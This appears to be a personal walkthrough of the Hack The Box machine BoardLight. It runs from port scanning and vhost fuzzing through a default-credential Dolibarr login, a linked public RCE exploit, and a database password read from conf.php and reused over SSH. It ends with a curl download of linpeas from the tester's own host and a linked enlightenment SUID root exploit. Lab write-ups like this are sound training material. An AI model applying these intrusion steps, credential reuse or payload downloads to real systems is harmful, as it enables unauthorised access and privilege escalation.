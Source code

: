 # Enumeration

Starting with Nmap:
`nmap -sV -sC -Pn 10.10.11.11`

``` 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41
```

Adding to etc/hosts:
`echo '10.10.11.11 board.htb' | sudo tee -a /etc/hosts`

Lots of broken buttons on this page. There's a contact us page with a form. Seems a good place to start.

All of the buttons are Get requests even the one on the contact form. And it doesn't seem to be submitting my information. The source on the page supports this...

Gonna fuzz for other pages maybe.

`ffuf -w /Users/noneya/Useful/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt:FUZZ -u http://board.htb/FUZZ -e .php -ic`

There are images and js directories but I don't have access to them.

Maybe I need to fuzz for some subdomains or vhosts.

Sub-Domain:
`ffuf -w /Users/noneya/Useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.board.htb -v`

Nope.

VHosts:
`ffuf -w /Users/noneya/Useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://board.htb -H 'Host: FUZZ.board.htb' `

A vhost called crm seems to exist.

Adding to etc/hosts.

It has a login page... 

The password reset page just asks for a security code and the login...

I see [this page](https://www.swascan.com/security-advisory-dolibarr-17-0-0/) seems to indicate I can get remote code execution if I can get authenticated.

Gonna fuzz for other directories or pages on crm.board.htb.

There are a lot of other directories and most I don't have access to.

I just tried admin:admin and it let me in...

There is an exploit script on [this GitHub repo](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py) gonna try that to see if I can get it. Trying to create a page manually on my end seems to have failed. Not sure if its the user or not.

The script worked. So I must have missed something the other way.

# Foothold

Now that I have a foothold I can get the user flag.

`find -name '*user.txt' 2>/dev/null`

hmm that didnt work

For pretty shell:
```
script /dev/null -qc /bin/bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

`sudo -l` is a miss too.

How many user are on the box ? (`cat /etc/passwd | grep /bin/bash`)

I can't help but notice it says www-data@boardlight as my user. Does that mean I am still in www-data, which is why I can't see the user flag?

Looks like I have access to Python3... Which might be helpful later.

In /etc/security there is a fill call access.conf, but it doesn't contain anything but comments.

There is a Home dir, with a user called larissa, but I don't have access. Seems I need to get her password and ssh in probably.

Lets look for some .dat files maybe:
`find / -name '*.dat' 2>/dev/null`

Theres a passwords.dat file but I don't have access.

I can try this to see if I can grep for it.
`find / -name '*.dat' 2>/dev/null | xargs grep -i 'Password'`

Lets looks for passwords:
`grep -ri "password" / 2>/dev/null`

Okay so I ended needing some help here so I went to the discussion for this box.

The comments mentioned finding a config file but no matter how I grepped I couldn't find anything. So I looked up config files for Dolibar and found I need to find this file conf.php.

Once I did here `/html/crm.board.htb/htdocs/conf`.

I cat the file and see `$dolibarr_main_db_pass='serverfun2$2023!!';`

Then I tried to ssh into the server with `ssh larissa@crm.board.htb` and that password and it worked.

That allowed me to get the user file.

Now for Priv Esc.

# Priv Esc

I have access to curl so I get the linpeas.sh file. 

Start a python server inside my linpeas directory:
```
cd /Users/noneya/Useful/Tools/linpeas
python3 -m http.server 8001
```

Then I get the file

```
cd /tmp
curl http://10.10.14.69:8001/linpeas.sh > /tmp/linpeas.sh
```

Then get the output:
`bash linpeas.sh > /home/larissa/results.txt`

There an interesting host in the output...
```
127.0.1.1	boardlight
```

When looking at the linpeas output and specifically grepping for light I see:
```
  LightCyan: Users with console
  LightMagenta: Your username
Hostname: boardlight
lightdm Not Found
boardlight
127.0.0.1	localhost boardlight board.htb crm.board.htb
127.0.1.1	boardlight
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!
```

The enlightenment_sys file seems interesting so I searched for exploits and found:
https://www.exploit-db.com/exploits/51180

This is a priv esc exploit with a script already written for it. All I did was copy it over (same way as linpeas), then run and had a root shell.

Then getting the root flag was easy.

